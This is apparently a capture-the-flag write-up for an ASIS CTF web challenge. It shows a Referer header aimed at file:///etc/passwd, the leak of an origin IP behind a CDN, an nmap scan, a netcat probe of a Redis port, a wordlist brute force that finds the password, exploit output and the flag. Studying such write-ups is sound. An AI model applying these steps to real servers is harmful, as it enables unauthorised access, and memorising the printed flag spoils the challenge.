 # Pentest writeup

Take from the only one who has solved it: [stypr link](https://gist.github.com/stypr/30b0a68b69dbf54d20e420e2b415f8ca)

This write-up was made per request of other players who were playing ASIS CTF.

Note: I solved this challenge before the hint was released. \o/

## Description

We got a suspicious [web service](http://ca12379f1163ff045b3ac80842d15bdb.gdn/) which does nothing at all. If you have time to test it, please help me to leak out all data from it. Thanks!

Hint: The server keeps your access log on submission.

## Solution

By searching around for a bit, `contact.php` had a very suspicious content.

```
<h5>By clicking send button, you hereby agree that all your access information are allowed to be reviewed.<h4>
<!-- Note: It's all for analytics.. Don't worry, we won't harm you. -->
```

By analyzing the `contact.php`, there was a weird URL check in Referer header.

```
POST /contact.php HTTP/1.1
Host: ca12379f1163ff045b3ac80842d15bdb.gdn
Connection: keep-alive
Content-Length: 109
Pragma: no-cache
Cache-Control: no-cache
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: ko-KR,ko;q=0.8,en-US;q=0.6,en;q=0.4,zh-CN;q=0.2,zh;q=0.2
Referer: file:///etc/passwd
Cookie: __cfduid=d22559f51eaf8ee0cd770a1564dc3f8f81473527951

fname=name&address=http%3A%2F%2Flocalhost&email=root%40localhost&phone=phone+number&message=message&send=send

HTTP/1.1 200 OK
Date: Sun, 11 Sep 2016 15:22:57 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
Server: cloudflare-nginx
CF-RAY: 2e0c1e2bbfde3a54-ICN

3aa
(... skipped some tags ..)
<div id="body">Invalid
6
param.
0
```

Then I changed the Referer to ```https://ctf.stypr.com/test.php``` and got an real IP address of the domain.

For further pentesting, I assumed that discovering real IP would be the best (cloudflare is a cdn service for websites, so it won't point out server's IP addresses.) way to work out, to inspect deeper parts of service.

```
66.172.33.176 (-) [11/Sep/2016:12:31:48 +0900] "GET /test.php HTTP/1.1" 200 505 "-" 0.005
```

From here, I used nmap to see if there are any vulnerable ports open.

```
$ nmap -sT 66.172.33.176 -p1024-10240

Starting Nmap 7.01 ( https://nmap.org ) at 2016-09-11 12:41 JST
Stats: 0:00:29 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 46.79% done; ETC: 00:27 (0:00:33 remaining)
Stats: 0:00:41 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 70.48% done; ETC: 00:27 (0:00:17 remaining)
Nmap scan report for ip-66-172-33-176.chunkhost.com (66.172.33.176)
Host is up (0.11s latency).
Not shown: 10157 closed ports
PORT     STATE    SERVICE
3702/tcp filtered unknown
6226/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 54.48 seconds
```

Then I connected to the 6226 port to check for available commands, and then realized that it was redis running behind.

```
$ nc 66.172.33.176 6226
HELP
-ERR unknown command 'HELP'
INFO
-NOAUTH Authentication required.
AUTH stypr
-ERR invalid password
```

There are a lot of redis brute force attacking tools available online, however, I made my own brute forcer since it's easy to make and tools like [enteletaor](https://github.com/cr0hn/enteletaor) didn't work out well.

I used the top [10000 password wordlist](https://github.com/cr0hn/enteletaor/blob/master/enteletaor_lib/resources/wordlist/10_million_password_list_top_10000.txt) and got the correct authentication with the password `crunch`.

Then I looked and googled for any possible redis vulnerability and found this good [resource](http://antirez.com/news/96).

Now the only left part to find is to look for the correct username. 

Since that the website was made by `acid` (as seen in footer of the website), I assumed the username is `acid` and wrote an exploit for the challenge.

Please check [exploit.py](exploit.py) to view the sourcecode.

```
$ python exploit.py
Password: crunch
OK
  OK
    OK
      OK
        OK
          ASIS{55ab63e61cac968dd1da217dab2d86b8}
                                                Connection to 66.172.33.176 closed.
```

## Flag

`ASIS{55ab63e61cac968dd1da217dab2d86b8}`